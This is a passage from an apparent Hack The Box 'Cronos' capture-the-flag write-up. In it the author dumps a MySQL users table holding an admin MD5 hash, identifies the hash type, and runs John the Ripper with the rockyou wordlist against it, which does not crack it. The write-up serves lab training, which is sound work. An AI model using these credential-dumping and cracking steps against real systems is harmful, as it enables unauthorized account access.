 <br />
Dump the table.

{% raw %}
```bash
mysql> select * from users;
select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```
{% endraw %}

<br />
Run that hash through hash-identifier to identify the type of hash.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ hash-identifier                                      
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 4f5fffa7b2340178a716e3832451e058

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

<snip>
```
{% endraw %}

<br />
Use john the ripper to try and crack the password.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2025-02-15 23:44) 0g/s 14062Kp/s 14062Kc/s 14062KC/s  fuckyooh21..*7¡Vamos!
Session completed.
```
{% endraw %}
